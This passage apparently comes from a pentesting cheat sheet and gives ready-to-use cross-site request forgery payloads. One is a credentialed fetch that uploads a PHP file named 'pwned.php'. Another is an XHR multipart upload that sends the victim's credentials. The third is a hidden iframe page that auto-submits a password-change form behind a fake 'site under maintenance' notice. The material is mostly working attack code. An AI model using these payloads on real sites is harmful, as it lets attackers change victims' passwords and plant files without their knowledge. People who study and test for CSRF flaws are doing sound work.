 ### multipart/form-data POST request

```javascript
myFormData = new FormData();
var blob = new Blob(["<?php phpinfo(); ?>"], { type: "text/text"});
myFormData.append("newAttachment", blob, "pwned.php");
fetch("http://example/some/path", {
    method: "post",
    body: myFormData,
    credentials: "include"
});
```

### multipart/form-data POST request v2

```javascript
var fileSize = fileData.length,
boundary = "OWNEDBYOFFSEC",
xhr = new XMLHttpRequest();
xhr.withCredentials = true;
xhr.open("POST", url, true);
//  MIME POST request.
xhr.setRequestHeader("Content-Type", "multipart/form-data, boundary="+boundary);
xhr.setRequestHeader("Content-Length", fileSize);
var body = "--" + boundary + "\r\n";
body += 'Content-Disposition: form-data; name="' + nameVar +'"; filename="' + fileName + '"\r\n';
body += "Content-Type: " + ctype + "\r\n\r\n";
body += fileData + "\r\n";
body += "--" + boundary + "--";

//xhr.send(body);
xhr.sendAsBinary(body);
```

### Form POST request from within an iframe

```markup
<--! expl.html -->

<body onload="envia()">
<form method="POST"id="formulario" action="http://aplicacion.example.com/cambia_pwd.php">
<input type="text" id="pwd" name="pwd" value="otra nueva">
</form>
<body>
<script>
function envia(){document.getElementById("formulario").submit();}
</script>

<!-- public.html -->
<iframe src="2-1.html" style="position:absolute;top:-5000">
</iframe>
<h1>Sitio bajo mantenimiento. Disculpe las molestias</h1>
```
